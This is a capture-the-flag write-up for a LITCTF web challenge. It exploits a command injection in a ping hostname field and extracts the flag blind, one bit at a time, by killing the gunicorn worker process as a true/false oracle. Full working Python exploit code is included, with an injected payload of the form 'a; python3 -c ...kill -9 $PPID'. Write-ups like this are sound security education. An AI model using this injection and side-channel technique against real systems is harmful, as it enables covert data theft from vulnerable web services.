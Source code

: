 # web/Ping Pong: Under Maintenance
So in this challenge we see that we have a command injection vulnerability that we can exploit similarly to the one in the previous challenge. However, instead of just adding a semicolon to start a new command and then `cat`ing the flag, we can't see the output.

I then tried just using a command to put the flag text into `templates/index.html`, and putting some new code inside the `main.py` file, but neither worked because the templates weren't automatically reloaded (and the code had even lower chances of reloading if the templates didn't).

My next instinct was to do some sort of data exfiltration over the network (like sending a HTTP request to some remote server). But someone foresaw this, and outbound connections are disabled on the machine.

Then I thought, "it says that outbound connections are disabled, but it doesn't say anything about inbound connections!" My first instinct was to do some sort of reverse shell or static file server that would serve the user the flag file. But the problem is that only a certain port is forwarded for the web server, and I would have to stop the existing server to run a new server. However, stopping the server stopped the entire container that the challenge was running on (as later confirmed by eyangch). (Sadly, I spent 2 days in-contest on this flawed route.)

So I tried to look for some sort of indirect leak. I realized that even if I couldn't stop the entire web server without crashing the whole challenge, I could crash part of it to indicate a true or false state. And then, I could use that to leak the flag, bit by bit.

I knew from previous attempts that gunicorn spawned worker processes for each request, so killing the subprocess would stop the connection without making the entire server crash, which made it feasible to carry out without having to restart the server a bunch of times.

To make things easier, I created some utility functions that would crash/not crash a process depending on a boolean value. I used Python on the remote server to validate conditions to make things simpler. 
```python3
def send(command):
    try:
        r = requests.post(host, data={'hostname': 'a; ' + command})
        return False
    except requests.exceptions.ConnectionError:
        return True
    
def test(cond):
    # single quotes required in cond
    return send(r'''python3 -c "import os; flag = open('flag.txt').read(); os.popen('kill -9 $PPID') if (''' + cond + ') else 1"')
```
To leak the flag, I first had to find out the length to figure out how much to loop, which I did by just incrementing a counter value (because I assumed that the flag would be fairly short). 
```python3
def getlen(s):
    l = 0
    while not test(f"len({s}) == {l}"):
        l += 1 
    return l 

#print(getlen('flag'))
# flag length = 19
```
Then, it was just a matter of extracting bits from each character, and I had the flag!
```python3
def leakchar(c):
    n = 0
    for i in range(8):
        b = test(f"(ord({c}) & (1<<{i})) > 0")
        if b: b = 1 
        else: b = 0
        #print(b)
        n += b << i
    return chr(n)
# ...
flaglen = 19
def leakstr(s, l):
    res = ''
    for i in range(l):
        res += leakchar(f"{s}[{i}]")
        print(res)
    return res
flag = leakstr('flag', flaglen)
print(flag)
# LITCTF{c4refu1_fr}
```
...and after some waiting, we finally get the flag!


